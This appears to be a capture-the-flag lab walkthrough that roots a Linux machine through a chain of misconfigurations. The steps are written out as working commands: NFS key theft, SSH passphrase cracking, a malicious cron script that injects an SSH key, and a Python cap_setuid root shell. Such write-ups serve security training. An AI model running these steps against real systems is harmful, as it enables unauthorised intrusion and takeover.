







I started with a RustScan to identify open services on the target:
$ rustscan -a 10.0.26.230 -- -APORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r-- 1 0 0 202 Sep 21 00:04 pwlist.txt
22/tcp open ssh OpenSSH 9.6p1 Ubuntu 3ubuntu13.14
80/tcp open http Apache httpd 2.4.58 ((Ubuntu))
111/tcp open rpcbind 2-4 (RPC #100000)
2049/tcp open nfs_acl 3 (RPC #100227)
34949/tcp open mountd 1-3 (RPC #100005)
38757/tcp open mountd 1-3 (RPC #100005)
39903/tcp open nlockmgr 1-4 (RPC #100021)
50651/tcp open mountd 1-3 (RPC #100005)
53725/tcp open status 1 (RPC #100024)Key findings from the scan:
pwlist.txt file visibleThe scan revealed anonymous FTP access. I connected and grabbed the password list:
$ ftp 10.0.26.230
Connected to 10.0.26.230.
220 (vsFTPd 3.0.5)
Name (10.0.26.230:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
ftp> ls
-rw-r--r-- 1 0 0 202 Sep 21 00:04 pwlist.txt
ftp> get pwlist.txt
226 Transfer complete.
ftp> exitThe password list contained common passwords:
password1
123456
letmein
qwerty
.....I checked for NFS shares available on the target:
$ showmount -e 10.0.26.230Export list for 10.0.26.230:
/srv/nfs/user1 ** as the allowed hosts, anyone can mount the share - a common misconfiguration that can expose sensitive files.
I mounted the NFS share locally:
$ mkdir target-NFS
$ sudo mount -t nfs 10.0.26.230:/srv/nfs/user1 ./target-NFS -o nolockInside the share, I found SSH keys:
$ ls target-NFS/
id_rsa id_rsa.pubExamining the public key revealed the associated username:

The share name /srv/nfs/user1 also hinted at the username being user1.
The private key was password-protected. I first tried the pwlist.txt wordlist from FTP, but it did not work. I then used rockyou.txt with John the Ripper:
$ ssh2john target-NFS/id_rsa > ssh.hash
$ john --wordlist=/usr/share/wordlists/rockyou.txt ssh.hashssh2john is a utility that converts password-protected SSH private keys into a hash format that John the Ripper can crack. It extracts the encrypted key material and outputs it in a format suitable for offline password attacks.

The passphrase was cracked: [REDACTED]
With the cracked passphrase, I connected to the target as user1:
$ ssh -i target-NFS/id_rsa user1@10.0.26.230
Enter passphrase for key 'target-NFS/id_rsa': [REDACTED]
/opt/user1/flag1.txt
I transferred pspy64 to the target to monitor processes running as other users:
I discovered a script being executed by UID 1002:

I identified the user associated with UID 1002:
user1@ip-10-0-26-230:/tmp$ getent passwd 1002
user2:x:1002:1002::/home/user2:/bin/bashThe cron job executed /tmp/backup.sh, which did not exist. Since /tmp is world-writable, I created a malicious script to add my SSH public key to user2's authorized_keys:
#!/bin/bash
mkdir -p /home/user2/.ssh
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAI... kali@kali" >> /home/user2/.ssh/authorized_keys
chmod 700 /home/user2/.ssh
chmod 600 /home/user2/.ssh/authorized_keys/tmp, any user can create that script. The cron job will then execute our malicious code with the privileges of the user who owns the cron job (in this case, user2).
After waiting for the cron job to execute, I connected as user2:
$ ssh user2@10.0.26.230
user2@ip-10-0-26-230:~$/opt/user2/flag2.txt
I ran linpeas.sh for automated enumeration and found WordPress database credentials:

I also confirmed MySQL was running locally:

I connected to MySQL and enumerated the database:
user2@ip-10-0-26-230:~$ mysql -u wpuser -p
Enter password: [REDACTED]mysql> SHOW DATABASES;
+--------------------+
| Database |
+--------------------+
| information_schema |
| performance_schema |
| wordpress |
+--------------------+
mysql> USE wordpress;
mysql> SHOW TABLES;
+---------------------+
| Tables_in_wordpress |
+---------------------+
| flags |
| users |
+---------------------+Flag 4 retrieved from the flags table:
mysql> SELECT flag FROM flags;
+------------------------------------------+
| flag |
+------------------------------------------+
| RkxBRzR... |
+------------------------------------------+I also found credentials for user3:
mysql> SELECT * FROM users;
+----+----------+---------------+
| id | username | password |
+----+----------+---------------+
| 1 | user3 | [REDACTED] |
+----+----------+---------------+user2@ip-10-0-26-230:~$ su user3
Password: [REDACTED]
user3@ip-10-0-26-230:~$In user3's home directory, I found a suspicious Python binary. I checked for Linux capabilities:
user3@ip-10-0-26-230:~$ getcap -r / 2>/dev/null
The custom Python binary at /home/user3/python3 had the cap_setuid=ep capability.
cap_setuid capability permits a process to change its user ID. When set on an interpreter like Python, it can be abused to escalate to root by calling os.setuid(0).
I used the Python binary to escalate to root:
user3@ip-10-0-26-230:~$ /home/user3/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@ip-10-0-26-230:~#/opt/user3/flag5.txt
/opt/root/flag6.txt
| Flag | Location | How Obtained |
|---|---|---|
| Flag 1 | /opt/user1/flag1.txt |
Initial access as user1 via NFS-leaked SSH key |
| Flag 2 | /opt/user2/flag2.txt |
Lateral movement via cron job exploitation |
| Flag 3 | /opt/ftpuser/flag3.txt |
Accessible after gaining foothold (FTP user's directory) |
| Flag 4 | MySQL wordpress.flags table |
Database enumeration with discovered credentials |
| Flag 5 | /opt/user3/flag5.txt |
Lateral movement via MySQL stored credentials |
| Flag 6 | /opt/root/flag6.txt |
Privilege escalation via Python capabilities abuse |
Anonymous FTP --> pwlist.txt (password wordlist)
|
v
NFS Share (*) --> user1's SSH keys (id_rsa, id_rsa.pub)
|
v
John the Ripper --> Cracked SSH passphrase
|
v
SSH as user1 --> FLAG 1
|
v
pspy --> Discovered /tmp/backup.sh cron job (UID 1002 = user2)
|
v
Malicious backup.sh --> SSH key injection to user2
|
v
SSH as user2 --> FLAG 2
|
v
LinPEAS --> wp-config.php MySQL credentials
|
v
MySQL enum --> user3 credentials from users table + FLAG 4
|
v
su user3 --> FLAG 5
|
v
getcap --> /home/user3/python3 with cap_setuid=ep
|
v
Python setuid(0) --> ROOT SHELL --> FLAG 6This machine demonstrated a chain of common misconfigurations:
*) leaked SSH private keyswp-config.php contained plaintext credentialscap_setuid on a Python binary provided instant root accessEach step in this attack chain represents a common real-world misconfiguration. The key lesson is that security failures rarely exist in isolation - attackers chain together multiple weaknesses to achieve their objectives.
Walkthrough by Zerotrace | HackSmarter Labs